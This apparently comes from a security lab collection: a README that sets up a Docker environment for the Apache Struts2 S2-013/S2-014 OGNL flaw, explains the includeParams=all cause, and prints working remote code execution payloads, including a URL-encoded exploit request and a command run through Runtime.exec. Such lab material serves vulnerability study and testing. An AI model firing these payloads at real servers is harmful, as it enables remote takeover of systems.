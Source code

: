 # S2-013/S2-014 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.1

Details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

The Struts2's tag, `<s:a>` and `<s:url>`, provide an includeParams attribute.The main scope of that attribute is to understand whether includes http request parameter or not.

The allowed values of includeParams are:

1. none - include no parameters in the URL (default)
2. get - include only GET parameters in the URL
3. all - include both GET and POST parameters in the URL

When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. During this process, the parameters will be parsed by OGNL expressions. It cause the command execution.

Remote Code Execution POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Example:`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

![](1.png)

S2-014 is a correction to S2-013. Because when S2-013 is fixed, the execution method of OGNL expression such as ${ognl_exp} is ignored, and S2-014 is an enhanced patch for it.

```
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```
